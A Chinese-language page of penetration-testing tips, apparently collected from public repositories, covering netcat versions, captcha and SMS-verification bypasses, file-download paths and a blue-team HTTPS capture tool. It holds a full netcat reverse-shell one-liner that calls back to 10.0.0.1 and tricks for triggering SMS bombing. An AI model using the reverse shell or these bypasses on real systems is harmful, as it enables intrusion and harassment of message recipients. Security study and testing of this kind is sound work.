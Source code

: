 
cAdvisor 是 Google 出品的用于监控 Docker 容器的服务，渗透时遇到这个服务基本上是存在容器环境

---

新版 kali 2020 版后使用 root 账号默认不给密码，如果你想,可以直接进行修改 : sudo passwd root

---

nc 具有多个版本, 比如: traditional、openbsd、ncat
- traditional 最老的版本,支持最基本的功能
- openbsd 安全版本,回弹要用一大段命令
    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
    ```
- ncat 新版本, 重构了旧版的代码并支持了许多新功能, debian 系列发行版下通过以下命令进行安装配置
    ```bash
    apt install -y ncat
    update-alternatives --set nc /usr/bin/ncat
    ```

---

程序溢出，int 最大值为 2147483647，可尝试使用该值进行整数溢出，观察现象。
> 来自项目 : [Power7089/PenetrationTest-Tips](https://github.com/Power7089/PenetrationTest-Tips)

---

图片验证码可设置为空，如：code=undefined
> 来自项目 : [Power7089/PenetrationTest-Tips](https://github.com/Power7089/PenetrationTest-Tips)

也可以使用字典进行 fuzz
- https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/api_param/Fuzz_imagesize.txt

---

任意文件下载：/porc/self/cmdline -- 当前进程的 cmdline 参数，/var/lib/mlocate/mlocate.db -- 全文件路径。
> 来自项目 : [Power7089/PenetrationTest-Tips](https://github.com/Power7089/PenetrationTest-Tips)

---

- 138888888889   12 位经过短信网关取前 11 位，导致短信轰炸
- 短信轰炸绕过：手机号前加 + 86 有可能会绕过，手机号输入邮箱，邮箱处输入手机号
- 手机号码前后加空格，86，086，0086，+86，0，00，/r,/n, 以及特殊符号等
- 手机号前加若干 + 会造成短信轰炸
- 获取短信验证码时，用逗号隔开两个手机号，有可能两个手机号能获取到同一个验证码
> 来自项目 : [Power7089/PenetrationTest-Tips](https://github.com/Power7089/PenetrationTest-Tips)

---

## 蓝队

通过 eBPF hook 系统的 libssl ,从而不需要装ca证书也可以抓https的包，很不错的项目，在应急响应和主机监控中会很有用
- https://github.com/ehids/ecapture

---
